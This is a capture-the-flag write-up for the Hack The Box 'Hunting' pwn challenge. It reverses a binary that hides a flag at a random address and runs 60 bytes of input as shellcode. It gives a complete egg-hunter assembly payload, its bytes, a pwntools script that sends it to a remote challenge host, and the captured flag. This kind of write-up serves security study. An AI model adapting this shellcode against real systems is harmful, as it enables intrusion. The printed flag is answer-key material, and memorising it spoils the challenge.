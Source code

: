 ```yaml
---
author: "lilith"
title: "HTB Hunting Writeup"
date: "2022-12-05"
description: "Hunting in the lower realms"
tags:
  - writeup
  - pwn
---
```


![](images/htb-hunting/description.png)

### Analyzing the binary

![](images/htb-hunting/analyze.png)
The binary haults for the input and crashes as we pass something.
![](images/htb-hunting/strings-output.png)
Upon reading the stings we found a string which looks like a dummy file. Time to look for it in IDA pro.

### IDA
> i changed some of the variable names for better understanding

I jumped to the variable to see where it was being used and after reading the code we see that that string was being moved from one location to another.
![](images/htb-hunting/img1.png)
It first sets a new location and copies the flag to that location then empty's flag value from the previous location.
![](images/htb-hunting/img2.png)
It also creates an exit signal and triggers it with a timer of 10 seconds. Which means that program will exit after 10 seconds.
![](images/htb-hunting/img3.png)
> I am literally reversing it from down to top

Before the singnal code, it calls a function which returns a randomly generated number.
![](images/htb-hunting/img4.png)
Further reading the code we now know that it generates a number from a range of `0x5FFFFFFF` < i <= `0xF7000000`
which is a randomly generated address.
Then it takes to a buffer size of `60` and executes it as a shellcode. (reason why the segfault)

So overall the program moves the flag to a random address location, kills the program after 10 seconds, reads our input and executes it as a shellcode.

> NOTE: Since the buffer size is limited. We have to be very creative and minimal while crafting our payload.

### Planning our exploit

Since the program kills itself after 10 seconds we will set up a timer with much higher value. Then we will traverse through addresses from a range of `0x5FFFFFFF`searching for the flag and send it to stdout if it matches.

```asm
section .text

global _start

_start:
  ; Set a timer to send a SIGALRM signal after 120 seconds.
  push 120
  pop ebx
  mov al, 0x1b
  int 0x80

  ; Set the starting address for the search.
  mov edi, 0x7b425448 ; "{BTH"
  mov edx, 0x5fffffff

next_page:
  ; Set the last byte address on the page.
  or dx, 0xfff

  ; Move to the next page.
  add edx, 4096

next_address:
  ; Move to the next address on the page.
  inc edx

  ; Check if the current address is valid.
  push edx
  xor ecx, ecx
  mov al, 0x21
  int 0x80
  pop edx

  ; If the address is not valid, go to the next page.
  cmp al, 0xf2
  jz next_page

  ; Check if the value at the current address is the flag.
  cmp dword [edx], edi

  ; If the value matches, then stdout
  jnz next_address
  mov ecx, edx
  push 36
  pop edx
  push 1
  pop ebx
  mov al, 0x4
  int 0x80

  ; Exit the program.
  xor eax, eax
  ret
```

### Pwn Time

First we craft our payload into bytecodes and send it through pwntools
![](images/htb-hunting/img7.png)

```py
from pwn import *

payload = b"\x6a\x3c\x5b\x6a\x1b\x58\xcd\x80\xbf\x48\x54\x42\x7b\xba\xff\xff\xff\x5f\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x6a\x24\x5a\x6a\x01\x5b\xb0\x04\xcd\x80"

#r = process("./hunting")
r = remote("134.209.22.121", 31067)
r.send(payload)

f = r.recv()
print(f)

r.close()
```
![](images/htb-hunting/img8.png)

Flag: `HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}`